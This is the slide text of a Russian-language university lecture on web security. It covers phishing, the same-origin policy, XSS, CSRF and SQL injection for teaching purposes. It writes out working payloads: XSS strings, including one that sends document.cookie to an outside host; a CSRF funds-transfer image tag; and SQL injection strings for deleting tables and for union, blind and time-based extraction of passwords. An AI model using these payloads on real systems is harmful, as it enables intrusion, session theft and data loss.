

Web и DHTML
Безопасность
Леонид Волканин
ИМКН УрФУ

Реализуем услугу «накрутка лайков» — Google в курсе
Зачем? Во-первых, это поднимает самооценку :)
А вообще цель атакующего — заработать деньги
Итак, надо сделать так, чтобы пользователь выполнил какое-то действие или оно «само выполнилось» от его имени
Какой наиболее уязвимый?
Фишинг (англ. phishing, от fishing — рыбная ловля): примеры
Некоторые страницы создаются с использованием динамических источников HTML-кода
Напр., расположение фрейма (<frame src=" http://test.ru/file.html">) может передаваться в параметре URL:
Атакующий может заменить значение параметра, в строке адреса будет отображаться правильный адрес, но будет присутствовать внешнее содержимое, замаскированное под легальный контент
Сайт ФБР (www.fbi.gov) работает на CMS Plone (Python + ZODB)
Публикация сайта через nginx:
server {listen 80;server_name yoursite.com www.yoursite.com;location / {proxy_passhttp://127.0.0.1:8080/VirtualHostBase/http/yoursite.com:80/Plone/VirtualHostRoot/;}}
Идентификатор сессии сохраняется в cookie, скрытых полях форм / URL
Можно украсть идентификатор авторизованной сессии (фиксация сессии) или предсказать его (вычислить или подобрать следующий идентификатор сессии)
document.cookie — решение задачи по атаке? А сервер пришлёт HttpOnly. Сниффер? Сервер может прислать Secure
<html><head><script>function steal(){wnd = document.querySelector("#gmail"); alert(wnd);alert(wnd.contentDocument.body.innerHTML);}</script></head><body><iframe src="gmail.com" id="gmail" onload="steal()"></body></html>
Same Origin Policy — разрешает сценариям одного сайта доступ к методам и свойствам друг друга, но предотвращает доступ к большинству методов и свойств для страниц на разных сайтах
Одинаковые источники — совпадают домен, порт, протокол
Т.е., со страницы http://site.com нельзя сделать запрос на адрес https://site.com, http://site.com:8080 или http://othersite.com
var xhttp = new XMLHttpRequest();xhttp.open("GET","http://pogoda.e1.ru/print/", false); // syncxhttp.send();var text = xml.responseText;
— откройте консоль
запрос: Origin: http://site.com
ответ: Access-Control-Allow-Origin: http://site.com
чаще даже так — Access-Control-Allow-Origin: *
var xhttp = new XMLHttpRequest();xhttp.open("GET","https://api.github.com/users/volkanin/repos", false); // syncxhttp.send();
Кросс-доменные запросы с поддомена a.site.com на базовый домен site.com допустимы при установке одинакового значения свойства document.domain
// на странице auto.e1.rudocument.domain = "e1.ru";xhttp.open("GET","http://e1.ru/news.php");
Итак, без явного разрешения атакующий не сможет получить извне доступ к данным окна браузера у пользователя
Значит, надо запустить код в контексте того же самого окна !
Уважаемый получатель, Вы только что получили вирус "ТАЛИБАН". Поскольку мы в Афганистане не так уж и продвинуты в технологиях - этот вирус следует исполнять вручную. Пожалуйста, перешлите это письмо всем, кого знаете, и уничтожьте все файлы на Вашем жестком диске собственноручно. Большое спасибо за помощь. Абдулла, хакер из Талибана
Межсайтовое выполнение сценариев
Передача серверу HTML-кода, содержащего сценарии, которые впоследствии выполняются браузером клиента
Различают два варианта XSS
/search?q="><script>alert('XSS')</script>
Обычно в результате поиска выводится искомая строка:
<input type="text" name="q"value=""><script>alert('XSS')</script>">
Можно быть скромнее и просто отправить document.cookie на свой сервер

Возможный метод обнаружения уязвимости/?q="><script>alert(1)</script>
HTML-код возвращаемой страницы примет вид:
В атрибуте<input value=""><script>alert(1)</script>"
В тексте <p>"><script>alert(1)</script></p>
Пример практического использования:"><script src=http://host/script.js></script>
Уязвимый код: <img src="$filename">
Эксплуатация:
/?filename="onerror=alert('XSS');" или
/?filename="onerror=javascript:alert('XSS');"
HTML-код возвращаемой страницы примет вид:<img src=""onerror=alert('XSS');"">
Пример: /?filename="onerror="new/**/Image().src= 'http://host/sniff?c='%2Bescape(document.cookie);"
Уязвимый код:
<select><script>document.write("<option value=1>"+document.location.href.substring(document.location.href.indexOf("default=")+8)+"</option>");document.write("<option value=2>English</option>");</script></select>
Штатная работа сценария: /?default=Russia
Эксплуатация:/?default=<script>alert(document.cookie)</script>
Пример: <script>alert(1)</script>
Hex-кодирование (URL): %3C%73%63%72%69%70%74%3E%61%6C%65%72%74%28%31%29%3C%2F%73%63%72%69%70%74%3E
HTML-кодирование: <scrip
t>alert ...
UTF-7:
+ADw-script+AD4-alert('1');+ADw-/script+AD4-
owasp.org/index.php/XSS_(Cross_Site_Scripting)_Prevention_Cheat_Sheet
owasp.org/index.php/XSS_Filter_Evasion_Cheat_Sheet#Tests
'';!--"<XSS>=&{()}
';alert(String.fromCharCode(88,83,83))//';alert(String.fromCharCode(88,83,83))//";
alert(String.fromCharCode(88,83,83))//";alert(String.fromCharCode(88,83,83))//--
></SCRIPT>">'><SCRIPT>alert(String.fromCharCode(88,83,83))</SCRIPT>
Уязвимость «Подделка HTTP-запросов»
Вид атаки, использующий функцию браузера по автоматической отправке идентификатора сессии с каждым GET/POST-запросом к веб-приложению
Сложности при автоматизированном обнаружении, однако эта ошибка встречается во многих веб-приложениях
Часто применяется связка XSS + CSRF
Пусть наш банк имеет API :) http://example.com/app/transferFunds?amount=1500&destAccount=12345
Разместим где-нибудь на форуме поддержки картинку ... PROFIT ! <img src="http://example.com/app/transferFunds?amount=1500&destAccount=12345"/>
А можно просто «от имени пользователя» голосовать ВКонтакте
Читали историю «The Spider of Doom»?
Уникальный непредсказуемый токен в каждом HTTP-запросе
owasp.org/Cross-Site_Request_Forgery_(CSRF)_Prevention_Cheat_Sheet
Верить в наше время нельзя никому, порой даже самому себе. (Мюллер)
Метод обхода логики приложения и получения непосредственного доступа к данным путем внедрения во входную информацию, обрабатываемую приложением, операторов языка SQL
Запрос: http://Server/news?id=1
Предполагается, что из БД извлекаем данные примерно так:SELECT * FROM news WHERE id=1
А что в приложении? Вы уже взрослые, так что показываем как есть...
id = Request.querystring("id") или $_GET['id']SQL_query = "SELECT * FROM news WHERE id="+id
http://Server/news?id=1;delete+from+news
http://Server/news?id=1+union+select+id,pwd+from
База знаний — websec.ca/kb/sql_injection
Обнаружение уязвимости /?id=1+ORDER+BY+100
SQL запрос примет вид SELECT id, name FROM table WHERE id=1 ORDER BY 100
В результате может быть получено следующее сообщение об ошибке ERROR 1054 (42S22): Unknown column '100' in 'order clause'
Получение имен таблиц/колонок (information_schema/перебор) и последующее получение данных из найденных таблиц
/?id=1+union+select+0,concat_ws(0x3a,table_name,column_name)+ from+information_schema.columns
В результате может быть получена требуемая информация в формате
| 0 | table1:column1 || 0 | table1:column2 |
| MySQL | MSSQL | MS Access | Oracle | DB2 | PostgreSQL | |
| Объединение строк | concat(,) concat_ws(delim,) |
' '+' ' | " "&" " | ' '||' ' | " "+" " ' '||' ' |
' '||' ' |
| Комментарии | -- и /**/ и # | -- и /* | Нет | -- и /* | -- | -- и /* |
| Объединение запросов | union | union и ; | union | union | union | union и ; |
| Подзапросы | v.4.1 >= | Да | Нет | Да | Да | Да |
| Хранимые процедуры | Нет | Да | Нет | Да | Нет | Да |
| Наличие information_schema или его аналога | v.5.0 >= | Да | Да | Да | Да | Да |
Главная сложность: отсутствует сообщение об ошибке
Эксплуатируя уязвимость SQL Injection «слепым» методом, атакующий манипулирует логикой работы приложения (да/нет)
Способы обнаружения
http://site/?param=-1 OR 1=1http://site/?param=-1 OR 1=1--http://site/?param=-1'http://site/?param=-1' AND 1=2http://site/?param=-1' OR '1'='1http://site/?param=-1"/*http://site/?param=1' AND 1=1http://site/?param=1' AND '1'='1
Подбор первого символа у первой записи в таблице /?id=1+AND+555=if(ord(mid((select+pass+from+users+ limit+0,1),1,1))=97,555,777)
SQL запрос примет вид SELECT id, name from table where id=1 AND 555=if(ord(mid((select pass from users limit 0,1),1,1))=97,555,777)
В случае, если таблица users содержит колонку pass и первый символ первой записи этой колонки равен 97 (символ «a»), СУБД вернет TRUE
Эксплуатация уязвимости основана на временных задержках
Классическая реализация: /?id=1+AND+if((ascii(lower( substring((select password from user limit 0,1) ,0,1))))=97,1,benchmark(2000000,md5(now())))
На основе задержки ответа от web-сервера можно сделать вывод, что подбираемый символ угадан
Аналог benchmark() - sleep() более предпочтительна для подобных целей, т.к. не использует процессорные ресурсы
Только сегодня! Больше 100 багов на PHP и MySQL!
bWAPP — http://www.itsecgames.com/
https://www.vulnhub.com/